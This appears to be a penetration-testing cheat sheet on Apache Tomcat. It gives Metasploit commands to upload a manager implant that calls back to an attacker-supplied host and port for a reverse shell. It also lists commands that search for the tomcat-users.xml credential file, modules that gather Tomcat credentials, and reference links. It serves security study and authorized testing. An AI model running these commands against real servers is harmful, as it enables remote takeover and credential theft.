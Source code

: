 # Apache Tomcat

## Upload Implant

```
msf > use exploit/multi/http/tomcat_mgr_upload

msf exploit(multi/http/tomcat_mgr_upload) > options

msf exploit(multi/http/tomcat_mgr_upload) > set lhost <attacker_IP>

msf exploit(multi/http/tomcat_mgr_upload) > set lport <attacker_PORT>

msf exploit(multi/http/tomcat_mgr_upload) > set rhost <target_IP>

msf exploit(multi/http/tomcat_mgr_upload) > run username=<username> password=<password>
```

[Rapid7: Metasploit Framework - Tomcat Mgr Upload Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/multi/http/tomcat_mgr_upload.md)

[VK9 Security: Apache Tomcat Manager .war reverse shell](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

```
$ find / -name "tomcat-users.xml" 2>/dev/null

$ find / -name "tomcat-users.xml" 2>&1
```

```
meterpreter > run post/windows/gather/enum_tomcat
```

```
msf > use post/multi/gather/tomcat_gather
```

https://viperone.gitbook.io/pentest-everything/everything/ports/ports-8080-8180-apache-tomcat

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/gather/tomcat_gather.md

---
## References

### Hacktricks

- [Hacktricks: Tomcat](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/tomcat/index.html)

### Hacking Articles

- [Hacking Articles: Tomcat Penetration Testing](https://www.hackingarticles.in/tomcat-penetration-testing/)